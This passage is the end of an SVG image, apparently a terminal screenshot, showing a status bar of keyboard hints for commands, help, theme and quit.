  <text x="448.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">:</text>
  <text x="465.6" y="367.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">commands</text>
  <text x="549.6" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="566.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">help</text>
  <text x="616.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">t</text>
  <text x="633.6" y="367.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">theme</text>
  <text x="692.4" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">q</text>
  <text x="709.2" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">quit</text>
</svg>
